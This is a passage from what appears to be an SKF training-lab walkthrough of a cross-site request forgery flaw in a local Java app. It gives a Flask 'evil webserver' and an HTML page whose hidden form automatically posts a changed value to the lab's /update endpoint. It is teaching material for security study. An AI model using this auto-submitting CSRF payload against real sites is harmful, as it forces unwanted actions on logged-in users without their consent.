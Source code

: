 ![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/java/CSRF-Samesite/3.png)

Also we can see that the application is not using any form of protection for preventing CSRF because there is no unique token being send in the POST request.

## Exploitation

In order to to exploit this vulnerability we need to set up our evil webserver to do the malicious CSRF using a POST request from. We could achieve this by creating the following python flask application.

```python
from flask import Flask, request, url_for, render_template, redirect, make_response
import requests


app = Flask(__name__, static_url_path='/static', static_folder='static')

app.config['DEBUG'] = True

@app.route("/")
def start():
    return render_template("evil.html")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Save the snippet above to > app.py and run the commands below to install some dependencies.

```
$ pip install flask
$ pip install requests
$ python app.py
```

Of course you can also run your app on whatever service you want it does not have to be python flask.

Now that the service is running we want to serve the malicious piece of javascript that is responsible for performing the malicious CSRF POST request.

```markup
<iframe style="display:none" name="csrf-frame"></iframe>
<form method='POST' action='http://localhost:5000/update' target="csrf-frame" id="csrf-form">
  <input type='hidden' name='color' value='Hackzord!'>
  <input type='submit' value='submit'>
</form>
<script>document.getElementById("csrf-form").submit()</script>
```

Save the snippet above to > templates/evil.html and run the command below to start our evil application.

```
$ python app.py
```
